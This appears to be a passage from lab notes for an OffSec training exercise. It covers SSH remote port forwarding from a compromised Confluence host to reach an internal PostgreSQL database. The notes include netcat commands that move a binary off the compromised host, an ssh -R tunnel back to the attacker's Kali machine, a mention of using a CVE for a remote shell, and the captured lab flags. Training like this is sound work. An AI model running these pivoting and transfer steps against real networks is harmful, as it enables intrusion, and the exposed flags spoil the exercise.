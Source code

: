```bash
	 template1  | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | =c/postgres          +
	            |          |          |                 |             |             |            |           | postgres=CTc/postgres
	(5 rows)

postgres=# \c hr_backup
	psql (16.2 (Debian 16.2-1), server 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1))
	SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
	You are now connected to database "hr_backup" as user "postgres".

hr_backup=# SELECT * FROM payroll;
	 id |                 flag             
	----+--------------------------------------
	  0 | OS{5a80ecbf77134685ac792e909f2737aa}
	(1 row)
```



3. Start VM Group 2. Download the binary at **ssh_remote_client** from the CONFLUENCE01 web server at **http://CONFLUENCE01:8090/exercises/ssh_remote_client**. Create an SSH remote port forward on CONFLUENCE01 that allows you to run the binary against port 4444 on PGDATABASE01 from your Kali machine.

	Note: the source files used to build the **ssh_remote_client** binary can be downloaded from **/exercises/client_source.zip**.

- Use CVE to gain remote shell on CONFLUENCE01 and upgrade to TTY
- Download binary & test
```bash
# Tab Kali
nc -nlvp 3333 > ssh_remote_client

# Tab CONFLUENCE01
nc 192.168.45.196 3333 -q 1 < ../confluence/exercises/ssh_remote_client

# Tab Kali (after download)
chmod +x ssh_remote_client

./ssh_remote_client 
	Connecting to 127.0.0.1:4141
	thread 'main' panicked at 'Failed to connect to 127.0.0.1:4141: Connection refused (os error 111)', src/client.rs:79:13
	note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
```

- Start Remote SSH Tunnel & exploit
```bash
# CONFLUENCE01
ssh -N -R 127.0.0.1:4141:10.4.193.215:5432 kali@192.168.45.196
	Could not create directory '/home/confluence/.ssh'.
	The authenticity of host '192.168.45.196 (192.168.45.196)' can't be established.
	ECDSA key fingerprint is SHA256:Z6AWTPQLtEMVjOkkRmrchK5U1cx9L6Dek+5Gx8+icic.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	yes
	Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
	kali@192.168.45.196's password:


# Kali
./ssh_remote_client 
	Connecting to 127.0.0.1:4141
	Flag: "OS{6650a40c7f5841a75a01cfce295c5915}"
```
